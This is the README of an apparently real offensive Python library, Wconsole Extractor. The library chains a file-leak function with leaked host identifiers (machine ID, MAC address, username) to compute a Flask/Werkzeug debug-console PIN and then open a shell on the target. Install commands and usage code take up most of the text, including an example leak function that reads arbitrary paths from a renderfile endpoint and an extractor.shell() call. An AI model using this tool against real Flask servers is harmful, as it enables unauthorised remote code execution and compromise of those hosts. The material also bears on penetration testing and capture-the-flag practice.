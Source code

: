 # Wconsole Extractor

## Description

Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode.

## Installation

```
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole-extractor
pip3 install .
```

## Requirements

To use this library the following requirements need to be satisfied:
- Having a leak function written in Python 3 which takes a filename as parameter and returns the content
- Target operating system is Linux

## Usage

```py
from wconsole_extractor import WConsoleExtractor
import requests

def leak_file(filename) -> str:
    r = requests.get(f"http://localhost/renderfile?path={filename}")
    return r.text

extractor = WConsoleExtractor(
    target="http://localhost",
    leak_function=leak_file
)
```

You have now instanciated the ``WConsoleExtractor`` class, here is what you can access:
```py
# Properties
extractor.base_url             # => http://localhost
extractor.class_name           # => Flask
extractor.machine_id           # => Machine id needed in private_bits
extractor.modname              # => flask.app
extractor.pin_code             # => debug console PIN CODE
extractor.private_bits         # => [leaked_uuid_get_node, leaked_machine_id]
extractor.probably_public_bits # => [username, modname, class_name, path_to_package]
extractor.python_version       # Python version running on target
extractor.target               # The target specified
extractor.token                # The token used to run a command in the debug console
extractor.username             # The username which probably launched the flask application
extractor.uuidnode             # The int mac address of the target host

# Methods
extractor.shell()              # Get a shell :)
```